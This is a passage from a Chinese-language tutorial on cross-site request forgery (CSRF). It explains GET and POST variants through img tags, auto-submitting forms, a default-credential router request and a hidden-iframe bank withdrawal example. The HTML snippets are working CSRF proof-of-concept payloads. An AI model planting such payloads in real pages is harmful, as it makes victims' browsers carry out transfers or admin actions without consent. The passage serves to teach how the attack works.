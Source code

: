 这种类型的 CSRF 一般是由于程序员安全意识不强造成的。GET 类型的 CSRF 利用非常简单，只需要一个 HTTP 请求，所以，一般会这样利用：

```html
<img src=http://wooyun.org/csrf?xx=11 /> 
```

在访问含有这个 img 的页面后，成功向 http://wooyun.org/csrf?xx=11 发出了一次 HTTP 请求。所以，如果将该网址替换为存在 GET 型 CSRF 的地址，就能完成攻击了。

### 乌云案例：POST 类型的 CSRF

这种类型的 CSRF 危害没有 GET 型的大，利用起来通常使用的是一个自动提交的表单，如：

```html
<form action=http://wooyun.org/csrf.php method=POST>
    <input type="text" name="xx" value="11" />
</form>

<script> document.forms[0].submit(); </script> 
```

访问该页面后，表单会自动提交，相当于模拟用户完成了一次 POST 操作。

### 乌云案例：其他猥琐流 CSRF

过基础认证的 CSRF(常用于路由器):POC:

```html
<img src=http://admin:admin@192.168.1.1 /> 
```

加载该图片后，路由器会给用户一个合法的 SESSION，就可以进行下一步操作了。

## CSRF 攻击实例

daguanren（大官人）在银行有一笔存款，输入用户名密码登录银行网银后发送请求进行个人名下账户转账：

```
http://www.bank.example/withdraw?account=daguanren1&amount=999&for=daguanren2
```

将 daguanren1 中的 999 块转到了 daguanren2 账号中。通常用户登录后，系统会保存用户登录的 session 值（可能是用户手机号、账号等）。但如果这时 daguanren 不小心新开一个 tab 页面进入了一个黑客 jinlian（金莲）的网站，而金莲网站的页面中嵌有如下 html 标签：

```html
<!DOCTYPE html>
<html>
    <!--其他页面元素-->
    <img src=http://www.bank.example/withdraw?account=daguanren1&amount=888&for=jinlian width='0' height='0'>
    <!--其他页面元素-->
</html>
```

这个请求就会附带上 daguanren 的 session 值，成功将大官人的 888 元转至 jinlian 的账户上。但如果 daguanren 之前没有登录网银，而是直接打开 jinlian 的网站，则由于没有 session 值，不会被攻击。以上示例虽然是 get 请求，post 请求提交的表单同样会被攻击。

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://www.bank.example/withdraw' target="csrf-frame" id="csrf-form">
    <input type='hidden' name='account' value='daguanren1'>
    <input type='hidden' name='amount' value='888'>
    <input type='hidden' name='for' value='jinlian'>
    <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```
